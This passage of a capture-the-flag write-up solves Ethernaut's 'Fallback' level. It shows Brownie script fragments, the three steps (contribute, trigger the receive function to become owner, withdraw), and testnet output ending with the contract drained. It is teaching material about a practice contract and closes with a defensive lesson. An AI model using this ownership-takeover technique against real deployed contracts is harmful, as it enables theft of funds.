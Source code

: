 ```solidity
hacker = accounts.add(config['wallets']['from_key'])
```

After this, a call to the `attack` method providing as arguments the address for the contract that we want to attack and the address for our contract is performed:

```solidity
attack(target, hacker)
```

Our attack function will be divided into three steps:

1. Perform a contribution to the contract for less than 0.001 ether. This will help meet the requirements defined in the contract’s `receive` function.
2. Perform a call to the `receive` method through `hacker.transfer`. Which will meet the condition as the amount transferred will be greater than `0` and our contract has done a previous contribution in the step before. This will immediately make us owners of the contract.
3. Last step is to withdraw the funds associated to the contract, as we are now the legitimate owner.


Last but not least, the script can be executed through the `brownie run` command, successfully hacking the first level of the Ethernaut challenge, as shown below:

```bash
root@vmi828562 ~/r/e/f/scripts#
brownie run attack main "0xfb6EFDB9bE117904a9E9eFF7Fcf6E2cff9BC781f" --network rinkeby
Brownie v1.18.1 - Python development framework for Ethereum


Running 'attack.py::main'...
Transaction sent: 0x56e5062c600e5b9d9fac22ce4333c7b32a0e4737bb2dcf646a304a9b9f8e1aef
  Gas price: 2.654972458 gwei   Gas limit: 31803   Nonce: 16
  Transaction confirmed   Block: 10681696   Gas used: 28912 (90.91%)

Transaction sent: 0xfd5dc46feac1abca358d3625029461a1231732bf30c2461033435dd3a4084b84
  Gas price: 2.530514464 gwei   Gas limit: 30522   Nonce: 17
  Transaction confirmed   Block: 10681697   Gas used: 25549 (83.71%)

Owner is hacker: True
Transaction sent: 0x3457feb604162a2dfb0f020302aac25f3b1b691dd87ddb2bf4122faedb6ada94
  Gas price: 2.479560643 gwei   Gas limit: 35918   Nonce: 18
  Waiting for confirmation... \
  Transaction confirmed   Block: 10681747   Gas used: 30398 (84.63%)

Final contract balance: 0
```

## Takeaways
As you may have noticed, this challenge is about understanding the concept behind a `fallback` function and how to keep it simple, avoiding dangerous implementations used to change a contract ownership.
